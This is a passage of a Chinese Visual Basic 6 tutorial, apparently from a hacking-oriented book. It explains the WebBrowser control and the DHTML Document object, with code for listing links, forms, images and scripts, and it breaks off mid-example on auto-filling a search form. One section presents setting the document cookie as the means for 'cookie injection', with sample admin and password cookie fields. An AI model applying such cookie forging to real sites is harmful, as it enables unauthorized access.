- **b) TopLevelContainer**  
  该属性用于返回一个 Boolean 值，表明 IE 是否是 WebBrowser 控件顶层容器，是就返回 True。

- **c) Type**  
  该属性返回已被 WebBrowser 控件加载的对象类型。例如，如果加载 .doc 文件，就会返回 Microsoft Word Document，即我们打开的文件类型。例如，我们使用 WebBrowser 打开一个 HTML 页面，再返回 WebBrowser 的 Type 属性，就会得到“HTML 文档”，如图 3-11 所示。


- **d) Left、Top、Width、Height**  
  上面的四个属性跟其他控件类似，都是用于设置控件在窗体中显示的位置。

- **e) LocationName**  
  该属性返回一个字符串，该字符串包含着 WebBrowser 当前显示的资源名称。如果资源是网页就是网页的标题；如果是文件或文件夹，就是文件或文件夹的名称。例如，我们打开百度首页，然后再获取 WebBrowser 的 LocationName 属性。

添加一个 WebBrowser 控件和一个按钮，并为该按钮的单击事件添加代码：

```vb
Private Sub Command1_Click()
    MsgBox WebBrowser1.LocationName        ' 获取网页的标题
End Sub

Private Sub Form_Load()
    WebBrowser1.Navigate "http://www.baidu.com"    ' 打开百度首页
End Sub
```

上面的代码运行后如图 3-12 所示。


- **f) LocationURL**  
  该属性用于返回 WebBrowser 当前正在显示资源的 URL。

- **g) Busy**  
  该属性返回一个 Boolean 值，验证 WebBrowser 当前是否正在加载 URL。如果返回 True，就表明浏览器正忙，可以使用 Stop 方法来中止正在执行的访问操作。

### 3.2.3 WebBrowser 控件的常用事件

不同的操作可以在 WebBrowser 中触发很多种事件，请参考下面的表格：

| 事件名 | 事件描述 |
|---|---|
| BeforeNavigate2 | 连接 URL 前触发，刷新时不触发 |
| DocumentComplete | 当整个文档完成时激发，刷新页面不激发 |
| DownloadBegin | 当某项下载操作开始后激发，刷新也可激发此事件 |
| DownloadComplete | 当某项下载操作已经完成后激发，刷新也可激发此事件 |
| NavigateComplete2 | 连接 URL 完成后激发，刷新时不触发 |
| NewWindow2 | 在打开新的窗口以前激发 |
| StatusTextChange | 如果状态栏中的文字改变，就会激发该事件，但程序是否有状态栏对该事件并无影响 |
| TitleChange | Title 有效或改变时激发 |

下面分别对几个常用事件进行一些说明。

- **a) BeforeNavigate2 事件**  
  在打开一个 URL 之前，会触发 WebBrowser 的 BeforeNavigate2 事件。请注意，如果网页中有多个框架，则在打开每个框架页面的时候都会触发该事件。例如，打开 `http://www.class18.com.cn/class18/admin` 这个页面，它有两个框架。那么，打开该页面时触发一次 BeforeNavigate2 事件，加载两个框架页面时分别各触发一次 BeforeNavigate2 事件。加起来，总共触发 3 次。

- **b) DocumentComplete 事件**  
  当 WebBrowser 页面加载完毕时会触发该事件。例如，我们打开一个网页，当网页下载到 100% 时，就会触发该事件。请注意，如果页面中含有框架，则框架页面下载完毕同样会触发该事件。

- **c) NewWindow2 事件**  
  该事件在创建新窗口以前激发。比如，我们在网页上点击一个超链接，而此超链接是在新窗口中打开的，此时就会触发 NewWindow2 事件。

- **d) StatusTextChange**  
  当 WebBrowser 的状态发生改变时就会触发该事件，但程序是否有状态栏对该事件并无影响。IE 的状态栏在最下端，如图 3-13 所示。浏览器在打开一个页面时，状态会发生多次改变，也就会多次触发该事件。


- **e) TitleChange 事件**  
  该事件是在网页的标题发生改变时被触发。例如，我们先打开了百度首页，标题是“百度一下，你就知道”，若我们再打开 Google，网页的标题变为“Google”，此时网页标题发生改变，就会触发 TitleChange 事件。

### 3.2.4 Document 对象

Document 对象代表给定浏览器窗口中的 HTML 文档。使用 WebBrowser 控件的 Document 属性我们可以返回一个 Document 对象。在这个小节中，我们将介绍 Document 对象的属性、方法、集合等基本内容。之所以要介绍本部分内容，是因为要对网页进行分析，实际上就是对 Document 文档进行分析。了解完本节的内容，大家将知道如何从一个网页中提取出有用信息。

#### 3.2.4.1 Document 对象的属性

下面我们列出 Document 对象的几个重要属性：

| 属性 | 描述 |
|---|---|
| activeElement | 获取当父 Document 拥有焦点时获得焦点的对象。 |
| alinkColor | 设置或获取元素中所有激活链接的颜色。 |
| bgColor | 设置或获取表明对象后面的背景颜色的值。 |
| cookie | 设置或获取 Cookie 的字符串值。 |
| defaultCharset | 从当前的区域语言中获取默认字符集。 |
| doctype | 获取与当前文档关联的文档类型声明。 |
| documentElement | 获取对文档根节点的引用。 |
| domain | 设置或获取文档的安全域名。 |
| fgColor | 设置或获取文档的前景（文本）颜色。 |
| fileCreatedDate | 获取文件创建的日期。 |
| fileModifiedDate | 获取文件最后一次修改的日期。 |
| fileSize | 获取文件大小。 |
| lastModified | 获取页面上次修改的日期（若页面提供）。 |
| linkColor | 设置或获取对象文档链接的颜色。 |
| parentWindow | 获取容器对象所在窗口的引用。 |
| protocol | 设置或获取 URL 的协议部分。 |
| readyState | 获取表明对象当前状态的值。 |
| referer | 获取将用户引入当前页面的位置 URL。 |
| uniqueID | 获取为对象自动生成的唯一标识符。 |
| URL | 设置或获取当前文档的 URL。 |
| URLUnencoded | 获取文档的 URL（去除字符编码）。 |
| vlinkColor | 设置或获取用户已访问过的链接颜色。 |
| Title | 包含文档的标题。 |

属性挺多的，在此我们不一一介绍，仅示例其中最常用的几个。

##### a) activeElement 属性

这个属性用于返回页面中获得焦点的对象。比如，一个网页中会有 text 输入框和按钮（button），我们将光标移动到一个输入框中进行输入，这个输入框就获得了焦点。请看下面的例子。我们使用 WebBrowser 打开页面“http://www.class18.com.cn/class18/”，然后将光标移动到用户名输入框，点击按钮，返回页面中获得焦点的对象名称：

```vb
Private Sub Command1_Click()
    MsgBox WebBrowser1.Document.activeElement.Name   ' 返回页面中焦点对象的 Name 属性
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.class18.com.cn/class18/admin/login.asp"
End Sub
```


如图 3-14 所示，这是打开后的页面。我们单击用户名输入框，再单击命令按钮，此时返回用户名输入框对象的 Name 属性，如图 3-15 所示。可以看到，获取焦点的输入框 Name 属性的值是 username。


##### b) alinkColor 属性

该属性可以用于设置或获取元素中所有激活链接的颜色，也就是一个超链接被点击之后的颜色。请注意，它不仅可以返回值，同时还可以设置一个颜色值。这里返回的是一个十六进制值，我们在设置值的时候，可以使用十六进制颜色值，也可以使用颜色名称，诸如 White、Blue、Black、Grey、Pink 等。网页上可以使用的有名称颜色可参考“网页颜色选择器”：http://www.k369.com/qt/webedit/color.htm，我们可以将颜色值设定成其中的任何一个值：

```vb
MsgBox WebBrowser1.Document.alinkColor   ' 返回链接被点击后的颜色
```


我们设置一个网页中超链接被点击之后的颜色为白色，使用代码：

```vb
WebBrowser1.Document.alinkColor = "white"    ' 将 alinkColor 属性的值设置成 White
```

##### c) bgColor 属性

该属性可以返回或设置网页中的背景颜色，返回一个十六进制数值。下面的代码可以将网页背景设置成黑色：`WebBrowser1.Document.bgColor = "black"`。

##### d) cookie 属性

该属性可以返回或设置页面的 Cookies 值。我们在 Cookies 注入的时候就需要构造 Cookies 值，使用该属性即可达到这样的目的。我们写入下列 Cookies 值：`admin=Nohack&Pass=Lijiejie`，可以使用代码：

```vb
WebBrowser1.Document.cookie = "admin=Nohack&Pass=Lijiejie"    ' 写入 Cookies 值
```

##### e) documentElement 属性

该属性可以获取对文档根节点的引用。举例说明，我们使用 documentElement 属性来返回页面中的 HTML 代码。

在窗体中添加一个 WebBrowser 控件、一个按钮和一个 TextBox（把 MultiLine 属性设置成 True，允许多行显示，再把 ScrollBars 属性设置成 2，加上竖向滚动条），为按钮的单击事件添加代码：

```vb
Private Sub Command1_Click()
    ' 返回页面代码到 Text 文本框中
    Text1 = WebBrowser1.Document.documentElement.innerHTML
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.lijiejie.cn/hackgame"
End Sub
```


运行后如图 3-17 所示。

> 提示：请注意，这里获得的代码并不是 100% 完整的代码，而是位于 `<Body>` 和 `</Body>` 之间的这部分代码。要想获取完整的代码，我们另有方法。这里只是获取 InnerHTML，只要使用 OuterHTML，就是完整的代码了。


##### f) fileCreatedDate 属性

该属性用于获取文件创建的日期，但无法设置，它是一个只读属性。例如，我们可以打开本地的一个 HTML 页面，然后使用 fileCreatedDate 属性返回它的创建日期。

##### g) fileSize 属性

该属性用于返回文档的大小，以字节为单位。


##### h) protocol 属性

该属性用于设置或获取 URL 的协议部分。例如，我们打开一个 HTTP 页面，得到的 protocol 属性值就是：HyperText Transfer Protocol，如图 3-18 所示。而如果打开一个 HTTPS 页面，例如网银的登录页面，获取的属性值则是：HyperText Transfer Protocol with Privacy，如图 3-19 所示。

### i）Referrer 属性

该属性用于返回将用户引入当前页面的位置 URL。例如，我们在页面 A 上点击一个超链接，进入了 B 页面，那么此时，在 B 页面上获取 Referrer 属性的值就是 A 页面的 URL。

### j）Title 属性

该属性用于返回页面的标题。它的使用非常简单，例如：`MsgBox WebBrowser1.Document.Title`。

### k）总结

以上我们介绍了 Document 对象的各种属性，下面我们介绍 Document 对象的一系列集合。通过返回这些集合对象，我们可以遍历网页上所有的对象元素。

#### 3.2.4.2 Document 对象的集合

Document 对象拥有的集合如下表所示：

| 集合名 | 集合描述 |
|---|---|
| all | 返回对象所包含的元素集合的引用。 |
| anchors | 获取所有带有 name 和/或 id 属性的 a 对象的集合。此集合中的对象以 HTML 源顺序排列。 |
| applets | 获取文档中所有 applet 对象的集合。 |
| childNodes | 获取作为指定对象直接后代的 HTML 元素和 TextNode 对象的集合。 |
| embeds | 获取文档中所有 embed 对象的集合。 |
| forms | 获取以源顺序排列的文档中所有 form 对象的集合。 |
| frames | 获取给定文档定义或与给定窗口关联的文档定义的所有 window 对象的集合。 |
| images | 获取以源顺序排列的文档中所有 img 对象的集合。 |
| links | 获取文档中所有指定了 HREF 属性的 a 对象和所有 area 对象的集合。 |
| namespaces | 获取 namespace 对象的集合。 |
| scripts | 获取文档中所有 script 对象的集合。 |
| styleSheets | 获取代表与文档中每个 link 或 style 对象的实例相对应的样式表的 styleSheet 对象的集合。 |

下面说明一下其中重要的几个集合。

### a）All 集合

该集合用于返回网页所包含的元素集合的引用。使用 For…Each 语句可以遍历集合中的每一个元素。例如，遍历百度首页中的所有元素。

首先在窗体中添加一个 WebBrowser 控件、一个 ListBox 和一个命令按钮，在窗体载入时打开百度页面，然后使用按钮的单击事件来遍历元素：

```vb
Private Sub Command1_Click()
    Dim CObject As Object            ' 集合对象变量
    Dim obj As Object                ' 集合中的元素
    Set CObject = WebBrowser1.Document.All   ' 返回网页中所有元素的集合
    For Each obj In CObject          ' 使用 For...Each 语句遍历集合
        List1.AddItem obj            ' 将元素添加到 List1 中
    Next
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开百度首页
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```

上面的代码运行后如图 3-20 所示，确实将所有的元素都添加到列表框中了。通过特殊的筛选条件，可以获取网页中特定类型的元素。例如，我们要获取页面中所有超链接，就可以使用下面的代码：

```vb
Private Sub Command1_Click()
    Dim tagname As String, i As Integer      ' 标签的名字和计数变量
    Dim objCount As Integer                  ' 元素的总个数
    objCount = WebBrowser1.Document.All.length   ' 返回元素的总个数
    For i = 1 To objCount                    ' 循环判断每一个元素
        ' 如果标签是 A，即超链接，就添加到 List1 中
        If WebBrowser1.Document.All.Item(i - 1).tagname = "A" Then
            List1.AddItem WebBrowser1.Document.All.Item(i - 1).href
        End If
    Next
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```


图 3-20 遍历百度首页上的所有元素

上面的代码中，`WebBrowser1.Document.All.length` 是返回页面中元素的总个数。在 Document 的所有集合对象中，都可以使用 Length 属性返回它们的长度，而 `WebBrowser1.Document.All.Item(i-1).tagname` 则是返回第 i-1 个元素的 TagName，即标签的类型。如果标签是 A，表明这个元素是超链接，把它的 href 属性添加到 List1 中即可。程序运行后如图 3-21 所示。

> 提示：HTML 标签中，A 是代表超链接的标签，而 href 参数则是超链接的地址。

触类旁通一下，还可以获取网页中的所有按钮、输入框、图片等，只需要对某一筛选条件进行判断即可。例如，需要获取所有的图片，就可以修改判断条件为：


图 3-21 获取页面中的所有超链接

```vb
If WebBrowser1.Document.All.Item(i - 1).tagname = "IMG" Then
    List1.AddItem WebBrowser1.Document.All.Item(i - 1).href
End If
```

上面的代码中，img 是用于显示图片的标签。

##### b) forms 集合

该集合可以返回网页中所有表单元素的集合。如果页面中有 5 个表单，那么 Forms 集合的元素个数就是 5。使用 For Each…Next 语句可以遍历集合中的元素，当然，我们也可以通过索引值来遍历所有的 Form 元素。例如，需要判断一个网页中的表单个数，可以使用下面的代码：

```vb
Private Sub Command1_Click()
    Dim objForms
    Set objForms = WebBrowser1.Document.Forms   ' 返回表单的集合
    MsgBox "网页中表单的个数是" & objForms.length   ' 获取表单的个数
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开百度页面
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```

百度的首页只有一个表单，就是用于提交关键字的那个表单。如果一个页面中有多个表单，那么，我们可以利用索引值来区分，例如第一个表单，可以使用：

```vb
Dim objForms
Set objForms = WebBrowser1.Document.Forms        ' 返回表单的集合
' 获取第一个表单的 Name 属性值
MsgBox "网页中第一个表单的名字是" & objForms.Item(0).Name
```

可以看到，这里是使用了 Item 方法来浏览某一个元素的。Item 方法是集合中的一个通用方法，用于访问集合中的某一个元素。

##### c) frames 集合

该集合可以返回网页中所有框架页面的集合。例如，一个网页中有 3 个框架页面，则 Frames 集合返回的元素个数就是 3。下面来获取一个页面中框架的个数：

```vb
Private Sub Command1_Click()
    Dim objForms
    Set objForms = WebBrowser1.Document.frames      ' 返回 Frames 对象集合
    MsgBox "网页中框架的个数是" & objForms.length   ' 返回框架的个数
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.class18.com.cn/class18/admin"
End Sub
```

前面已经说到了，Length 属性可以用来返回 Document 对象中的某个集合对象的元素个数。这里是类似的用法。

##### d) images 集合

Images 集合可以返回网页中所有图片对象的集合。使用这个集合，可以非常容易地获取网页中的所有图片。例如，想获取一个网页中所有图片的 URL，可以使用下面的代码：

```vb
Private Sub Command1_Click()
    Dim objImgs, img
    Set objImgs = WebBrowser1.Document.images      ' 返回图片对象集合
    For Each img In objImgs
        List1.AddItem img.src                      ' 将图片 URL 添加到 List1 中
    Next
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开 NOhack 首页
    WebBrowser1.Navigate "http://www.nohack.cn/"
End Sub
```

这样就把网页中所有图片的 URL 添加到 List1 中了。同时需要注意，Src 参数是标示图片 URL 地址的，而显示图片则使用 IMG 标签，它的形式诸如：`</img>`。

##### e) links 集合

该集合是一个网页中所有超链接对象的集合。下面的代码使用 For Each…Next 语句来遍历百度首页中的所有超链接：

```vb
Private Sub Command1_Click()
    Dim objLinks, link
    Set objLinks = WebBrowser1.Document.Links      ' 返回所有超链接对象集合
    For Each link In objLinks                      ' 遍历所有超链接，添加到 List1 中
        List1.AddItem link
    Next
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开百度首页
    WebBrowser1.Navigate "http://www.baidu.com/"
End Sub
```

运行上面的代码，同样可以得到百度首页中的所有超链接。大家知道，前面我们使用了 All 对象集合来获取一个页面中的超链接，但很明显，使用 links 对象集合的效率会更高一些，因为它只有超链接对象。

##### f) scripts 集合

该集合用于获取文档中所有 script 对象的集合。使用它，我们可以判断网页中使用的脚本个数以及脚本的类型。这里所谓的脚本，是指 VBScript、JavaScript 等。下面是获取 `http://www.lijiejie.cn/hackgame` 这个页面中的脚本总数以及脚本所使用的语言类型：

```vb
Private Sub Command1_Click()
    Dim objScripts, Script
    Set objScripts = WebBrowser1.Document.scripts      ' 返回脚本对象集合
    MsgBox "页面中共有 " & objScripts.length & " 个脚本"   ' 返回脚本总个数
    For Each Script In objScripts                      ' 遍历脚本对象，返回脚本语言
        List1.AddItem Script.language                  ' 将脚本语言名称添加到 List1 中
    Next
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.lijiejie.cn/hackgame"
End Sub
```


运行上面的代码，如图 3-22 和图 3-23 所示。可以看到，我们获取的页面中脚本的总个数是 4，但是，在 List1 中列出来的只有 3 个。其原因是，某些时候我们在编写 HTML 页面中的脚本时，会省略 Language 参数不写，浏览器会自动识别其到底是 VBScript 还是 JavaScript。但因为这个参数没有被赋值，所以我们获得的最终脚本类型就是空字符串了。

##### g) 总结

到此，对 Document 对象的常用对象集合就介绍完了，特别是其中的 All 集合、forms 集合、Links 集合，希望大家熟悉掌握。

关于捕捉网页中的各个对象的事件，例如，捕捉在网页单击一个按钮的事件，则需要使用到类，本书暂不作讨论。下面要介绍的是 Document 对象的方法。

#### 3.2.4.3 Document 对象的方法

Document 对象的诸多方法请参考下表：

| 方法 | 描述 |
|---|---|
| attachEvent | 将指定函数绑定到事件，以便每当该事件在对象上触发时都调用该函数。 |
| clear | 目前尚未支持。 |
| close | 关闭输出流并强制将数据发送到显示。 |
| createAttribute | 以指定名称创建 attribute 对象。 |
| createComment | 以指定数据创建 comment 对象。 |
| createDocumentFragment | 创建一个新文档。 |
| createElement | 为指定标签创建一个元素的实例。 |
| createEventObject | 生成当使用 fireEvent 方法时用于传递事件相关信息的 event 对象。 |
| createStyleSheet | 为文档创建样式表。 |
| createTextNode | 从指定值中创建文本字符串。 |
| detachEvent | 从事件中取消指定函数的绑定，这样当事件触发时函数就不会收到通知了。 |
| execCommand | 在当前文档、当前选中区域给定范围内执行命令。 |
| focus | 使得元素得到焦点并执行由 onfocus 事件指定的代码。 |
| getElementById | 获取对 ID 标签属性为指定值的第一个对象的引用。 |
| getElementsByName | 根据 NAME 标签属性的值获取对象的集合。 |
| getElementsByTagName | 获取基于指定元素名称的对象集合。 |
| hasFocus | 获取表明对象目前是否拥有焦点的值。 |
| mergeAttributes | 复制所有读/写标签属性到指定元素。 |
| open | 此方法以两种方式工作。该方法打开一个文档用于收集 write 和 writeln 方法的输出。在这种情况下，只使用前两个参数 url 和 name。若指定了附加参数，此方法将打开一个窗口，这与 window 对象的 window.open() 方法相同。 |
| queryCommandEnabled | 返回表明指定命令是否可在给定文档当前状态下使用 execCommand 命令并成功执行的 Boolean 值。 |
| queryCommandIndeterm | 返回表明指定命令是否处于模糊状态的 Boolean 值。 |
| recalc | 重新计算当前文档中的全部动态属性。 |
| releaseCapture | 释放当前文档中对象的鼠标捕捉。 |
| setActive | 设置对象为当前对象而不将对象置为焦点。 |
| write | 在指定窗口的文档中写入一个或多个 HTML 表达式。 |
| writeln | 在指定窗口的文档中写入一个或多个 HTML 表达式，后面追加一个换行符。 |

上面列出了许多方法，实际使用到的却并不多。下面仅对其中几个作详细介绍。当然了，这或许要求有一些网页编程的基础，例如 HTML 语言、ASP 动态网页编程等。不过即使没有掌握网页编程的相关知识，你仍然可以依葫芦画瓢，使用 WebBrowser 实现诸多功能。下面请大家静下心来，与我一起探讨 WebBrowser 对象的几个方法。

##### a) getElementById 方法

该方法用于获取对 ID 标签属性为指定值的第一个对象引用。它的基本形式是：`Document 对象名.getElementById(ID 值)`。我们在程序目录下新建一个 test.HTML 文件，写入代码：

```html
<body>
<div id="Nohack1">
Just a test.
</div>
<div id="Nohack">
Content;
</div>
</body>
```

大家可以看到，有两个 DIV 标签的 ID 值是 Nohack。那么试试使用 getElementById 方法来返回对象吧，看看是不是如我们所说，返回的是第一个对象：

```vb
Private Sub Command1_Click()
    Dim obj
    ' 返回第一个 Id 为 Nohack 的对象
    Set obj = WebBrowser1.Document.getElementById("Nohack")
    MsgBox obj.innerHTML    ' 获取该对象中的 HTML 代码
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开程序目录下的 test.HTML
    WebBrowser1.Navigate App.Path & "\\test.HTML"
End Sub
```


图 3-24 getElementById 方法返回对象

运行上面的代码，如图 3-24，确实是第一个 Id 为 Nohack 的 Div 标签中的 HTML 代码。使用 getElementById 方法只能返回第一个指定 id 值的对象，它并不能返回一个对象的集合。

##### b) getElementsByName 方法

该方法根据 NAME 标签属性的值获取对象的集合，请注意，这里返回的是一个对象的集合，可能集合中的元素并不止一个。它跟 getElementById 方法有一定的差异。在程序目录下建立 test.HTML，写入下面的代码：

```html
<body>
    <input name="LiJiejie" type="text" size="20" value="Nohack"/><br/>
    <input name="LiJiejie" type="text" size="20" value="黑客手册"/><br/>
    <input name="LiJiejie" type="text" size="20" value="VB 编程"/><br/>
</body>
```

我们建立了三个文本输入框，并设置三个输入框的 Name 参数的值都是“LiJiejie”，它们的默认输入值分别是“Nohack”“黑客手册”“VB 编程”。我们使用 getElementsByName 方法来返回所有的 Name 为“LiJiejie”对象的集合，并获取第一个对象的 Value 属性：

```vb
Private Sub Command1_Click()
    Dim obj
    ' 返回所有 Name 参数是 "LiJieJie" 的对象的集合
    Set obj = WebBrowser1.Document.getElementsByName("LiJieJie")
    MsgBox obj.length      ' 获取集合中的对象个数
    MsgBox obj(0).Value    ' 返回第一个对象的 Value 属性值
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate App.Path & "\\test.HTML"
End Sub
```


图 3-25 getElementsByName 方法返回的集合中对象的总个数


图 3-26 第一个元素的 Value 属性的值

运行以上代码，分别如图 3-25 和图 3-26 所示。我们通过 `obj(0).Value` 返回了第一个 Name 参数为“LiJiejie”的对象的 Value 值，这里也体现出 getElementsByName 方法返回的是一个对象数组。

##### c) getElementsByTagName 方法

该方法通过标签的名称返回一个对象的集合，它的基本形式是：Document 对象名.getElementsByTagName(标签名)。这是一个非常重要的方法，像我们需要从百度和 Google 的搜索结果中分析出前 10 个链接，都会使用到此方法。它可以从一个页面中获取所有标签名为 A（超链接）的对象。前面我们使用 Document 对象的 Links 集合获取过百度首页的全部超链接，下面使用 getElementsByTagName 方法来获取：

```vb
Private Sub Command1_Click()
    Dim obj, Link
    ' 返回所有的标签名是 A 的对象的集合，也即超链接对象的集合
    Set obj = WebBrowser1.Document.getElementsByTagName("a")
    For Each Link In obj    ' 遍历超链接对象中的每一个元素，添加其 URL 到 List1 中
        List1.AddItem Link.href
    Next
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```

图 3-27 使用 getElementsByTagName 方法获取页面所有超链接

上面的代码中，标签 A 是专门用于表示超链接的，而 Href 参数则是超链接的 URL。运行上面的代码，成功添加了所有的超链接，如图 3-27 所示。

上面的介绍中，我们使用了三种方式来获取一个页面中的所有超链接：

- 使用 Document 对象的 All 集合
- 使用 Document 对象的 Links 集合
- 使用 Document 对象的 getElementsByTagName 方法

VB 的网络编程确实非常灵活，但是灵活本身的同时也会给读者朋友们带来一些困扰。我们尽量不要将这些方法混淆，这样当阅读别人编写的代码时，无论对方采用何种方式，都可以了如指掌。在全面掌握了网络编程之后，你会发现，同样一个功能，我们常常可以使用好几种方法来实现。你了解得越多，选择的余地就越大，希望大家不要怕麻烦。

##### d) WriteLn 方法

该方法用于在指定窗口的文档中写入一个或多个 HTML 表达式，并在后面追加一个换行符。例如，我们要向浏览器中写入一个文本输入框，即下面的 HTML 代码：`<input name=UserName value='Nohack'>`，可以使用代码：

```vb
Dim str As String
str = "<input name=UserName value='Nohack'>"   ' 为字符串变量赋值
WebBrowser1.Document.writeLn(str)              ' 写入到浏览器中
```

图 3-28 使用 WriteLn 方法向浏览器中写入 HTML 代码

上面的代码写入效果如图 3-28 所示。注意，这里并不是将代码追加到一个已打开的页面中，例如百度的首页，而是将代码写入一个新的空白页面中。当我们右键查看网页的属性时，会发现页面的 URL 其实是 about:blank。

## 3.2.4.3 Document 对象的子对象

Document 本身是一个对象，但在它下面，还有其他的对象。这就像我们的脸是一个对象，但脸上的眼睛也是一个对象一样。它的几个对象请参考下面的表格：

| 元素 | 对象 | 描述 |
|---|---|---|
| BODY | body | 指定文档主体的开始和结束。 |
|  | implementation | 包含了关于对象支持的模块信息。 |
|  | location | 包含关于当前 URL 的信息。 |
|  | selection | 代表了当前激活选中区，即高亮文本块，和/或文档中用户可执行某些操作的其它元素。 |

下面对它们做一些介绍。

##### a) Document 对象的 Body 对象

该对象表示指定文档主体的开始和结束。例如，想要获取百度首页中 `<body>` 和 `</body>` 之间的 HTML 代码，就可以使用下面的代码：

```vb
Private Sub Command1_Click()
    ' 将<body>和</body>之间的代码写到Text1中
    Text1.Text = WebBrowser1.Document.body.outerHTML
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开百度首页
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```

上面的代码中，InnerHTML 是用于返回对象中的所有 HTML 代码，此时所得代码不包括 `<body>` 和 `</body>`，但若使用 OuterHTML，则返回的代码中包括 `<body>` 和 `</body>`。

> 参考资料：  
> OuterHTML 属性：  
> Sets or retrieves the object and its content in HTML.  
> 设置或返回网页中的对象和对象中的 HTML 内容。  
> InnerHTML 属性：  
> Sets or retrieves the HTML between the start and end tags of the object.  
> 设置或返回对象的开始标签和结束标签之间的 HTML 代码。

如果我们需要获取网页中的所有文字信息，就可以使用 InnerText 属性，该属性用于返回一个网页对象中的文本：

```vb
Private Sub Command1_Click()
    Text1.Text = WebBrowser1.Document.body.innerText
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```

InnerText 只会返回网页对象中的文字信息，其他元素将不会被返回。就像我们全选并复制了一个网页，但在记事本中粘贴时，只会得到其中的文字信息。图 3-29 是运行后的结果。

##### b) Document 对象的 Location 对象

该对象包含关于当前 URL 的信息，它有几个属性，请看下面的表格：

| 属性 | 描述 |
|---|---|
| hash | 设置或获取 href 属性中在“#”后面的分段。 |
| host | 设置或获取 location 或 URL 的 hostname 和 port 号码。 |
| hostname | 设置或获取 location 或 URL 的主机名部分。 |
| href | 设置或获取整个 URL 为字符串。 |
| pathname | 设置或获取对象指定的文件名或路径。 |
| port | 设置或获取与 URL 关联的端口号码。 |
| protocol | 设置或获取 URL 的协议部分。 |
| search | 设置或获取 href 属性中跟在问号后面的部分。 |

我们只介绍其中的几个属性。

###### 1. Host 属性

Host 属性可以设置或获取 location 或 URL 的 hostname 和 port 号码。例如，我们使用 WebBrowser 打开 http://61.187.54.10:8000/authjsp/faq.jsp 这个地址，返回 WebBrowser1.Document.location.Host，最终结果将会是 61.187.54.10:8000。如果是使用域名，比如 http://www.baidu.com:8000/zhidao/index.php，则会返回 www.baidu.com:8000。

###### 2. HostName 属性

该属性返回值是主机名，而不返回端口号。例如，打开 http://61.187.54.10:8000/authjsp/faq.jsp 这个页面，返回的 HostName 属性值是 61.187.54.10。若打开 http://www.baidu.com:8000/zhidao/index.php，则返回的是 www.baidu.com。

###### 3. Href 属性

该属性用于返回完整的 URL 字符串。例如，如果使用 WebBrowser 打开页面 http://www.lijiejie.cn/hackgame/index.HTML，那么最终返回的 Href 属性值也同样是 http://www.lijiejie.cn/hackgame/index.HTML。

##### c) Document 对象的 selection 对象

该对象代表了当前激活选中区，即高亮文本块，和/或文档中用户可执行某些操作的其它元素。例如，如果我们需要返回用户选中区域的 HTML 代码，就可以使用下面的代码：

```vb
Private Sub Command1_Click()
    Dim objSelection As Object
    Set objSelection = WebBrowser1.Document.selection   ' 返回 Selection 对象
    ' 使用 CreateRange 方法返回 TextRange 对象
    ' 再返回 TextRange 对象的 HTMLText 属性值
    Text1.Text = objSelection.CreateRange.HTMLText
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```

运行代码，如图 3-30 所示。

在上面的代码中，使用了 Selection 对象的 CreateRange 方法，这个方法是用来返回一个 TextRange 对象的。这看起来是不是麻烦了点？使用 WebBrowser 返回 Document 对象，接着使用 Document 对象返回 Selection 对象，再使用 Selection 对象返回 TextRange 对象。貌似麻烦了一点，若大家对此不太熟悉，请先熟悉上面的代码，以便随时参考。TextRange 对象还有一个属性是 Text，HTMLText 是返回选择文本的 HTML 代码，而 Text 属性则是返回纯文本。上面的代码中更改 HTMLText 为 Text，则可以只返回选中的文本：Text1.Text = objSelection.CreateRange.Text。

## 3.2.4.4 小结

了解完 Document 对象的相关属性、方法、集合、对象，我们对于获取网页上的各种信息就可以运用自如了。可以说，Document 对象是 WebBrowser 控件编程的核心。大家在有时间的时候，请一定参阅附在光盘中的《网页制作完全手册》，里面关于 DHTML 方面的内容十分全面，而且大多是以中文描述的。

关于 WebBrowser 控件的学习，我们提供两个地址给大家。第一个是中文的，但是资料不太全面。内容标题是 WebBrowser 控件概述，网址是 http://msdn.microsoft.com/zh-cn/library/w290k23d(VS.80).ASPx。第二个地址是英文的，但资料较为全面。内容为 WebBrowser Object，网址是 http://msdn.microsoft.com/zh-cn/library/aa752085(en-us,VS.85).ASPx#。有机会大家可以到微软的网站上看看，很多你在图书馆找不到的东西，都可以在微软的网站和 MSDN 中找到。好好利用如此丰富的网络资源，不要只局限于某一两本书。通常来说，如果你看完某两本书就算了，那么你的水平不会超过这两本书的作者。要想超越他们，就必须多汲取更多的知识。

## 3.3 WebBrowser 控件使用实例

WebBrowser 控件在 VB 的网络编程中是一个重头戏。下面举几个例子说明它的使用。

### 3.3.1 使用 WebBrowser 自动填写表单并提交

我们使用 WebBrowser 控件自动在表单中填写信息，并提交出去。首先从百度首页源代码中寻找表单信息，最关键信息如下：

```html
<form name=f action=s>
<input type=text name=wd id=kw size=42 maxlength=100>
<input type=submit value="百度一下" id=sb>
</form>
```

可以看到，百度的搜索表单的 Name 参数值是“f”，只有一个字母。而文本输入框的名字叫 wd。我们只要设置 wd 的 Value 值就可以自动填写表单了。

在窗体中画一个 WebBrowser 控件和两个按钮，按钮 1 填写表单，按钮 2 提交表单，在窗体载入时打开百度首页：

```vb
Private Sub Command1_Click()
    ' 在关键词输入框中填写上"黑客手册"字样
